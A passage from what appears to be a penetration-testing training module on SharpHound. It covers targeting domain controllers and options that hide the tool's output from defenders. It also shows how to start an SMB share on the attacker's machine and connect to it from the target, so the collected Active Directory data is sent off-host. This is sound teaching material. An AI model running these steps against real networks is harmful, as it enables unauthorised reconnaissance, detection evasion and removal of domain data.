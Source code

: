 Another flag we find helpful is `-d` or `--domain`. Although this option is assigned by default, if we are in an environment where multiple domains exist, we can use this option to ensure that SharpHound will collect the information from the domain we specify.

SharpHound will capture the domain controller automatically, but if we want to target a specific DC, we can use the option `--domaincontroller` followed by the IP or FQDN of the target domain controller. This option could help us target a forgotten or secondary domain, which may have less security or monitoring tools than the primary domain controller. Another use case for this flag is if we are doing port forward, we can specify an IP and port to target. We can use the flag `--ldapport` to select a port.

### Randomize and hide SharpHound Output

It is known that SharpHound, by default, generates different `.json` files, then saves them in a `zip` file. It also generates a randomly named file with a `.bin` extension corresponding to the cache of the queries it performs. Defense teams could use these patterns to detect bloodhound. One way to try to hide these traces is by combining some of these options:

| **Option**          | **Description**                                               |
| ------------------- | ------------------------------------------------------------- |
| `--memcache`        | Keep cache in memory and don't write to disk.                 |
| `--randomfilenames` | Generate random filenames for output, including the zip file. |
| `--outputprefix`    | String to prepend to output file names.                       |
| `--outputdirectory` | Directory to output file too.                                 |
| `--zipfilename`     | Filename for the zip.                                         |
| `--zippassword`     | Password protects the zip with the specified password.        |

For example, we can use the `--outputdirectory` to target a shared folder and randomize everything. Let's start a shared folder in our PwnBox:

**Start the shared folder with username and password**

```shell
sudo impacket-smbserver share ./ -smb2support -user test -password test
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Now let's connect to the shared folder and save SharpHound output there:

**Connect to the shared folder with username and password**

```cmd-session
C:\htb> net use \\10.10.14.33\share /user:test test
The command completed successfully.

```
